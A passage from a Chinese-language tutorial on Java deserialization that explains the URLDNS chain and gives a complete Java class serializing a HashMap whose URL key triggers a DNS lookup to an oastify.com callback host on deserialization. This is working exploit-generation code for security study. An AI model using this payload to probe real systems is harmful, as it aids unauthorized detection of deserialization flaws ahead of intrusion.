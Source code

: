 ```java
            h += file.hashCode();

        // Generate the port part.
        if (u.getPort() == -1)
            h += getDefaultPort();
        else
            h += u.getPort();

        // Generate the ref part.
        String ref = u.getRef();
        if (ref != null)
            h += ref.hashCode();

        return h;
    }
```

## 代码

其中还涉及到java反射的内容，可以自行学习一下

其中利用反射机制拿到URL类的hashCode变量，这是个私有属性，所以需要对`setAccessible`设置true值，来修改私有属性

上面分析时提到`hashCode`变量要不等于-1时，才执行`handler.hashCode(this);`，所以给`url`的`hashCode`变量赋值，使其不等于-1

然后将配置好的url放入HashMap，然后将url的hashCode改为-1，确保反序列化时成功，然后序列化之后将内容进行反序列化就可以触发DNS查询

```java
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class SerializationTest {
    //序列化
    public static void serialize(Object obj)throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }


     public static void main(String[] args) throws Exception {
       HashMap map = new HashMap();
        URL url = new URL("http://a7ik628p6r4ba42na9heq464uv0mofc4.oastify.com");
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true); // 绕过Java语言权限控制检查的权限，可以修改私有属性
        f.set(url,123); // 设置hashcode的值为-1的其他任何数字
        System.out.println(url.hashCode());
        map.put(url,123); // 调用HashMap对象中的put方法，此时因为hashcode不为-1，不再触发dns查询
        f.set(url,-1); // 将hashcode重新设置为-1，确保在反序列化成功触发
         serialize(map);
     }

}

```
